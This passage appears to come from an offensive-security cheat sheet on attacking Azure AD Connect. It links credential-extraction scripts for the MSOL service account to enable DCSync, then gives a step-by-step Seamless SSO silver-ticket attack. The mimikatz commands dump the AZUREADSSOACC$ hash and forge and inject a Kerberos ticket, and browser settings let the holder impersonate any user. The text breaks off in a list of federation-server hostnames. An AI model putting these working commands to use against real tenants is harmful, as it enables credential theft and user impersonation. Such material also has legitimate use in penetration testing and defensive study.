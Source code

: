 You can perform **DCSync** attack using the MSOL account.

Prerequisite:

* Compromise a server with Azure AD Connect service
* Access to ADSyncAdmins or local Administrators groups

Use the script **azuread_decrypt_msol.ps1** from @xpn to recover the decrypted password for the MSOL account:

* `azuread_decrypt_msol.ps1`: AD Connect Sync Credential Extract POC <https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545>
* `azuread_decrypt_msol_v2.ps1`: Updated method of dumping the MSOL service account (which allows a DCSync) used by Azure AD Connect Sync <https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c>

Now you can use the retrieved credentials for the MSOL Account to launch a DCSync attack.

## Azure AD Connect - Seamless Single Sign On Silver Ticket

> Anyone who can edit properties of the AZUREADSSOACCS$ account can impersonate any user in Azure AD using Kerberos (if no MFA)

:warning: The password of the AZUREADSSOACC account never changes.

Using [https://autologon.microsoftazuread-sso.com/](https://autologon.microsoftazuread-sso.com/) to convert Kerberos tickets to SAML and JWT for Office 365 & Azure

1. NTLM password hash of the AZUREADSSOACC account, e.g. `f9969e088b2c13d93833d0ce436c76dd`.

    ```powershell
    mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
    ```

2. AAD logon name of the user we want to impersonate, e.g. `elrond@contoso.com`. This is typically either his userPrincipalName or mail attribute from the on-prem AD.
3. SID of the user we want to impersonate, e.g. `S-1-5-21-2121516926-2695913149-3163778339-1234`.
4. Create the Silver Ticket and inject it into Kerberos cache:

    ```powershell
    mimikatz.exe "kerberos::golden /user:elrond
    /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234
    /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd
    /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
    ```

5. Launch Mozilla Firefox
6. Go to about:config and set the `network.negotiate-auth.trusted-uris preference` to value `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
7. Navigate to any web application that is integrated with our AAD domain. Fill in the user name, while leaving the password field empty.

## Azure AD - ADFS Federation Server ~Cloud Kerberos

Discover Federation Servers

* adfs
* auth
* fs
* okta
* ping
* sso
* sts
